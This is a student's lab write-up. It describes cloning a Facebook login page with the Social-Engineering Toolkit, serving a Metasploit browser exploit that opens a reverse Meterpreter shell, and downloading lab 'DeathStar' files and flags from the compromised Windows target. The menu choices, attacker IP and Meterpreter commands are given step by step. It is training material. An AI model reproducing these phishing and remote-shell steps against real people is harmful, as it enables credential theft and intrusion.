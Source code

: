 In this lab, I am setting up a fake Facebook website, then sending the
link to that fake website via email to the target. The target will login
to the fake facebook which will run an exploit through metasploit to
connect to the target machine

### **Casting the Net - Setting up the fake website**

In the given machine, I was just able to type 'setoolkit' in the
terminal to launch the SET application

I selected (1) for Social-Engineering Attacks

\(2\) for Website Attack Vectors

\(2\) for Metasploit Browser Method

\(1\) to use Web Templates

I'm not sure what the next step meant, but I put in "no" for using
NAT/port forwarding

![](output\Social Engineering using a SET/media/image7.png){width="5.15625in"
height="2.830989720034996in"}

I typed my host IP address which was "175.45.176.199"

\(3\) to use the Facebook web template

\(46\) for the Metasploit browser exploit

\(2\) for Reverse TCP Meterpreter Shell

{Enter} for using the default port of 443

Waited for a bunch of messages from Metasploit starting the server w/
exploits

Waited until "Done, found x exploit modules"

### **Getting Attacked - Using the Target System**

I logged in to the target server

I'm not sure how, but there was already an email sent.

The hyperlink to "facebook.com" sent the browser to the fake website

I, as the target, signed in with whatever credentials I was given but I
believe literally anything would work, as long as they hit enter which
will send them to another page. This exploit page will seem to "hang" as
the exploit begins

![](output\Social Engineering using a SET/media/image12.png){width="5.473958880139983in"
height="3.744339457567804in"}![](output\Social Engineering using a SET/media/image2.png){width="5.354166666666667in"
height="3.6565212160979876in"}

### **Connecting to the Machine**![](output\Social Engineering using a SET/media/image8.png){width="4.953125546806649in" height="1.1654407261592301in"}

Now back the attacker's console, in the "msf auxiliary" command line

**'sessions -l'** to **list all active sessions**

**'sessions** -i **#'** to **interact with a certain machine**

in this case i do 'sessions -i 1' to interact with the first machine

![](output\Social Engineering using a SET/media/image9.png){width="10.0in"
height="2.513888888888889in"}**\
\
**

### **Stealing Data - [[Working in a Meterpreter Shell]{.underline}](https://docs.google.com/document/d/1ww7Tdts1mNIEKEzmUEuEu2cWaBv3Tr-fGKvRfu_FwK0/edit)**

**'pwd'** to find the **present working directory** to figure out where
I am

Then can use normal windows 'cd' commands to change directory

**'cd /'** to change to root directory

![](output\Social Engineering using a SET/media/image1.png){width="5.052083333333333in"
height="1.7395833333333333in"}

'**ls'** to list files and folders in the directory, any name that pops
up without an extension is a folder I assume

![](output\Social Engineering using a SET/media/image6.png){width="10.0in"
height="4.708333333333333in"}

**'cd share'** to move into the share folder

![](output\Social Engineering using a SET/media/image11.png){width="10.0in"
height="3.0555555555555554in"}

We can see a folder called "DeathStar" which very likely has classified
imperial plans that I should investigate.

Moving into the DeathStar folder, I see 4 images of blueprints, I can
download the ENTIRE directory by using **'download \*.\*'** and then
sending it to my root folder by adding **'/root'**

So the entire command is **'download \*.\* /root'** to download the
entire directory and then outputting it into my root folder

I can also do **'/root/Blueprints'** to put these images in a dedicated
folder that was just created with the command

![](output\Social Engineering using a SET/media/image3.png){width="10.0in"
height="5.847222222222222in"}

![](output\Social Engineering using a SET/media/image10.png){width="10.0in"
height="2.7777777777777777in"}

Each blueprint has a flag somewhere in the picture

blueprint1 = 999818

blueprint2 = 111222

blueprint3 = 777558

blueprint4 = 655913

I can also download the flag4.xml file in /share using the same download
method. Opening it reveals the flag in the first few lines of the file
(444588)

![](output\Social Engineering using a SET/media/image4.png){width="8.635416666666666in"
height="3.15625in"}

### **Closing notes**

I can find the ip address of the machine using **'ipconfig'**

**'background'** lets me put the current session in the background so I
can interact with the msf auxiliary console

Even if the target machine closes the web browser, I still have a
completely normal connected session to the machine. I can still move
through directories and download files and see changes made such as
adding or deleting files. I only lost access to the machine when they
manually stopped the "notepad.exe" process that I noticed was
responsible for the exploit in the first section.

In this lab, I noticed an additional machine in the topology called the
Windows 8.1 Attack Server. I'm not really sure how this machine played a
role in this, but I noticed it has the same 175.45.176.200 ip address as
the fake Facebook website, so perhaps it's the server hosting the fake
website? Also I never did any command involving that ip address, so
maybe it's something that was set up before.

![](output\Social Engineering using a SET/media/image5.png){width="8.59375in"
height="10.3125in"}

### Skills

Social Engineering Toolkit

Metasploit

Meterpreter
